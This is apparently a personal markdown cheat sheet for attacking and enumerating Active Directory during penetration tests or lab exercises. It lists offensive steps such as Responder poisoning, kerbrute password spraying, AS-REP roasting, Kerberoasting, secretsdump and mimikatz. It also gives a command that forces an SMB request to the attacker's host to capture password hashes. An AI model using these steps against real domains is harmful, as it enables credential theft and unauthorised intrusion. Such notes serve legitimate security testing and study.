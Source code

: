 # Active Directory - Enumeration

## Keep in mind

   https://github.com/Andre92Marcos/escalations/blob/master/active_directory_attacks_enumeration.md
   https://github.com/Andre92Marcos/escalations/blob/master/ldap_security_enumeration.md

## Check for attacks

petit-potam: https://github.com/AndreMIsidoro/escalations/blob/master/ad_attacks_enum/petitPotam.md


## For connections

   winrm: evil-winrm
   for smb: impacket-psexec
   for wmi: impacket-wmiexec

## When we dont have anything

### Do simple enum of services (RPC,SMB)

Use enum4linux-ng

   https://github.com/Andre92Marcos/tools/tree/master/enum4linux-ng


### Try to do an ldap anonymous bind

   ldapsearch -x -b "dc=example,dc=com"


### Use ldapdomaindump

https://github.com/Andre92Marcos/tools/tree/master/ldapDomainDump

### Use netexec

https://github.com/Andre92Marcos/tools/blob/master/netexec/README.md#ldap

## When we get a new password do a kerbrute passwordspray

https://github.com/AndreMIsidoro/tools/tree/master/kerbrute

## When we have access to target's network

Start responder to try to do some poisoning

   https://github.com/Andre92Marcos/tools/tree/master/responder

## If we have usernames and want to check if they are domain usernames

Enumerate users found to see if they pre authenticate to kerberos

   kerbrute userenum --dc <ip_to_domain_controller> -d <full_domain_name> <filename_with_usernames>


## When we have a domain username, no password, no shell

If we can make the target make a smb request back to us

   For example using sqlinjection, we can use responder to get hash and try to crack it
   https://github.com/Andre92Marcos/tools/tree/master/responder


Try to do some ASREProasting

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/ASREProasting.md

If we are successful we can also try to do some Kerberoasting no preauthentication

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/kerberoasting.md#kerberoast-no-pre-authentication

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound

## When we have a domain username and a password

We can request a TGT

   https://github.com/AndreMIsidoro/tools/blob/master/impacket/getTGT.md

Try to do some Kerberoasting

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/kerberoasting.md



## When we have a domain username, but no password, but we have a shell

Do a gci request to get the user hash (and use it in other protocols, and try to crack it), with responder running

   gci \\<mylocalhostip>\share\file #share and file dont have to exist

Use group3r

   https://github.com/Andre92Marcos/tools/tree/master/group3r

Use ADRecon

Use the snaffler tool

   https://github.com/Andre92Marcos/tools/tree/master/snaffler

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound


If our user have some special permissions run secretdump

   https://github.com/Andre92Marcos/tools/blob/master/impacket/secretdump.md

If we are not finding anythin with bloodhound

   Load powesploit PowerView.ps1 from:

      https://github.com/PowerShellMafia/PowerSploit/tree/dev

   And then run 

      Find-InterestingDomainAcl -ResolveGUIDS | ConvertTo-Json

   This might find relations that bloodhound missed

## When we have a TGT and there is certificate authentication in the domain

User certipy to find vulnerabilities (for example, after a shadow credentials attack)

https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/shadow_credentials.md
https://github.com/Andre92Marcos/tools/blob/master/certipy-ad/README.md#find



## When have a local Admin or domain Admin

Use mimikatz tool. (Also if we have user with SeDebugPrivilege)

   https://github.com/Andre92Marcos/tools/tree/master/mimikatz


## Other Tips

### Sync time with kerberos

To figure out the difference in time with the kerberos server:

   sudo ntpdate 10.129.127.130

To simulate the difference in time when executing a command:

   faketime -f '+7h' <command>